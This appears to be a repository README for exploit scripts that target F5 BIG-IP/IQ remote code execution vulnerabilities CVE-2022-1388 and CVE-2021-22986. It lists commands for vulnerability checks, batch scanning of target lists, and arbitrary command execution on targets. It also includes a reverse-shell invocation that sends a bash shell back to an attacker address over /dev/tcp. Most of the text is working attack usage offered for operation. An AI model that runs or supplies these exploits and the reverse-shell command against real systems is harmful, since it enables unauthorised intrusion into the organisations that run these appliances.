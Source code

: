 # 20221-2021-F5-BIG-IP-IQ-RCE
I modified it so you can use CVE-2022-1388/CVE-2021-22986 and F5 BIG-IP RCE vuln checks and exploiters
the normal check.py and exp.py is 2022 but CVE_2021, newpoc, and f5.rest.jar are from the 2021 version

but all you gotta do is do python check.py to see all cmds

<strong>2021 Basic use</strong>

python3 CVE_2021.py
Vuln check: python3 CVE_2021_22986.py -v true -u https://192.168.174.164
command execute: python3 CVE_2021.py -a true -u https://192.168.174.164 -c id
python3 CVE_2021.py -a true -u https://192.168.174.164 -c whoami
batch scan: python3 CVE_2021_22986.py -s true -f url.txt
Reserve Shell: python3 CVE_2021_22986.py -r true -u https://192.168.174.164 -c "bash -i >&/dev/tcp/192.168.174.129/8888 0>&1"
New POC: python3 newpoc.py https://192.168.174.164
Validation mode：python CVE_2021.py -v true -u target_url 
Attack mode：python CVE_2021.py -a true -u target_url -c command 
Batch detection：python CVE_2021.py -s true -f file
Bounce mode：python CVE_2021.py -r true -u target_url -c command 

<strong>2022 Basic use</strong>
Vulnerability name: F5 BIG-IP iControl Rest API exposed Check
Function: single detection, batch detection                                    
Single detection：python exp.py -u url
Batch detection：python exp.py -f url.txt
Check: python check.py -f url.txt
